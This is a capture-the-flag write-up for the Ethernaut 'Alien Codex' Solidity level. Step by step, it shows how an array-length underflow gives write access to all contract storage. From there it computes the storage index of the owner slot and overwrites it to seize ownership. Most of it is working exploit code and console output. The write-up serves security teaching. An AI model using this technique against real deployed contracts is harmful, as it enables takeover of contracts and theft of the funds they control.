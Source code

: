 # 19. Alien Codex
<sup>Difficulty 7/10</sup>

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help:

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

## Solution

To take the ownership we first investigate the ABI to see the available functions and variables.

```javascript
contract.abi
// (11) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]
// 0: {constant: false, inputs: Array(2), name: 'revise', outputs: Array(0), payable: false, …}
// 1: {constant: true, inputs: Array(0), name: 'contact', outputs: Array(1), payable: false, …}
// 2: {constant: false, inputs: Array(0), name: 'retract', outputs: Array(0), payable: false, …}
// 3: {constant: false, inputs: Array(0), name: 'make_contact', outputs: Array(0), payable: false, …}
// 4: {constant: false, inputs: Array(0), name: 'renounceOwnership', outputs: Array(0), payable: false, …}
// 5: {constant: true, inputs: Array(0), name: 'owner', outputs: Array(1), payable: false, …}
// 6: {constant: true, inputs: Array(0), name: 'isOwner', outputs: Array(1), payable: false, …}
// 7: {constant: true, inputs: Array(1), name: 'codex', outputs: Array(1), payable: false, …}
// 8: {constant: false, inputs: Array(1), name: 'record', outputs: Array(0), payable: false, …}
// 9: {constant: false, inputs: Array(1), name: 'transferOwnership', outputs: Array(0), payable: false, …}
// 10: {anonymous: false, inputs: Array(2), name: 'OwnershipTransferred', type: 'event', constant: undefined, …}
// length: 11
```

Cannot use `renounceOwnership` or `transferOwnership` due to `Ownable` checks... that would've been too easy :D

```javascript
await contract.transferOwnership(player)
// Ownable: caller is not the owner
await contract.renounceOwnership()
// Ownable: caller is not the owner
```

Looking somewhere else we notice that we can mess around with the storage via the `codex` variable.
If we call it directly, we get an error because our index is greater than its length. 

```javascript
await contract.codex(0)
// invalid opcode: INVALID
```

But via the `retract` function we can exploit the integer underflow and have `codex` variable cover all the EVM storage spaces, from `0` to `2 ** 256 - 1`.

```solidity
function retract() contacted public {
	codex.length--;
}
```

To effectively exploit this behavior we need to find out where the `owner` variable is located, in order to overwrite it via the `revise` function.

```solidity
function revise(uint i, bytes32 _content) contacted public {
	codex[i] = _content;
}
```

The `owner` variable is located at slot `0` since bool takes only 1 byte and address takes 20 bytes. As we learned earlier, challenge [12. Privacy](./12_privacy.md), the EVM tries to optimize the storage to fit a 32 bytes slot. Hence, `codex` list will start at slot `1`.

| Index | Variables        | Notes                               |
|:------|:-----------------|:------------------------------------|
| 0     | contacted, owner | 1 byte + 20 bytes                   |
| 1     | codex[0]         | This takes the whole 32 bytes space |

We can verify this:

```javascript
await web3.eth.getStorageAt(contract.address, 0)
// -> '0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
await contract.contact()
// -> false
```

We have to take the last `1 bool + 1 address = 21 bytes` (41 characters), the trailing `0`s are only a padding.
Then we'll have:

| Contact | Owner                                      |
|:--------|:-------------------------------------------|
| `0`     | `da5b3fb76c78b6edee6be8f11a1c31ecfb02b272` |

By contacting the aliens via the `make_contact` method (this operation is required since the functions we'll use later need `contact` to be `true`) we can see the change:

```javascript
await contract.make_contact()
await contract.contact()
// -> true
await web3.eth.getStorageAt(contract.address, 0)
// -> '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```

| Contact | Owner                                      |
|:--------|:-------------------------------------------|
| `1`     | `da5b3fb76c78b6edee6be8f11a1c31ecfb02b272` |


Now that we got all these information, we need to find the address which contains the `owner` variable and overwrite it!
`codex` will be at `keccak256(abi.encodePacked(bytes32(uint256(1))))`, while the index of the `owner` should be `2 ** 256 - <codex_index>`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Alien {
    uint public ownerIndex;
    function getIndex() public returns (uint) {
        uint codexIndex = uint(keccak256(abi.encodePacked(bytes32(uint256(1)))));
        ownerIndex = uint(2 ** 256 - 1) - codexIndex + 1;
        return ownerIndex;
    }
}
```

Returned value:
`35707666377435648211887908874984608119992236509074197713628505308453184860938`

Now we can manipulate the owner!

```javascript
await contract.owner() == player                                                // Check we are note owner
// -> false
const playerMemory = '0x' + player.slice(2).padStart(64, '0')                   // Reconstruct the owner variable with player
// -> '0x000000000000000000000000aB75624dB2FDC51bFc0b4EB56902811a0Aa844b3'
await contract.make_contact()                                                   // Make the contact to use the other functions
await contract.contact()                   
// -> true
await contract.codex(0)                                                         // This will throw an error since we haven't already trigger the underflow
// [!] Error: invalid opcode: INVALID  
await contract.retract()                                                        // Trigger the underflow 
await contract.codex(0)
// -> '0x0000000000000000000000000000000000000000000000000000000000000000'
const ownerMemoryAddr = '35707666377435648211887908874984608119992236509074197713628505308453184860938'
await contract.codex(ownerMemoryAddr)                                           // Check the memory address we found
// -> '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
await contract.revise(ownerMemoryAddr, playerMemory)                            // Overwrite it
await contract.codex(ownerMemoryAddr)
// -> '0x000000000000000000000000ab75624db2fdc51bfc0b4eb56902811a0aa844b3'
```

We succed it! Let's do final checks: we expect we are the owner, also, we remove the contact since we didn't add the `1` before the player address.

```javascript
await contract.contact() 
// -> false
await contract.owner() == player
// -> true
```

```
╚(▲_▲)╝ Well done, You have completed this level!!!
```

## OZ Corner

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
